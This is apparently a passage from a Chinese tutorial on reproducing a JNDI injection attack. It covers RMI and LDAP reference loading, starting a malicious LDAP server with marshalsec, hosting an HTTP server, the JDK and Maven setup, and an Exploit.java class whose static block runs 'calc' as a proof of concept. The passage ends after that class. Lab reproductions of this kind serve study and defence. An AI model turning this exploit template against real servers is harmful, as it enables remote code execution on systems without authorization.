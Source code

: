 ![image-20230420174816341](https://img.gyxnb.top/img/image-20230420174816341.png)

### getObjectFactoryFrom... 

![image-20230420174909664](https://img.gyxnb.top/img/image-20230420174909664.png)

## RMI资源也可以这样利用，原理一样 

### 1、怎么在外网启动一个LDAP服务？ 

除了本地Java代码，也可以用marshalsec-0.0. 3-SNAPSHOT-all.jar，带参数直接启动 

### 2、怎么在外网启动一个HTTP服务？

 Apache、Tomcat、Nginx、Phpstudy……

# 环境复现

## 基础环境 

### 开发工具 

IDEA 

### JDK 

JDK 1.8u121以下的版本 

`java -version` 

### Maven

下载地址：https://dlcdn.apache.org/maven/maven-3/

例如apache-maven-3.6.3-bin

`mvn -version` 

## 1、准备远程代码

### Exploit.java

```
import java.io.IOException;

public class Exploit {
    static {
        try {
            // 打开windows电脑的计算器 proof of content
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
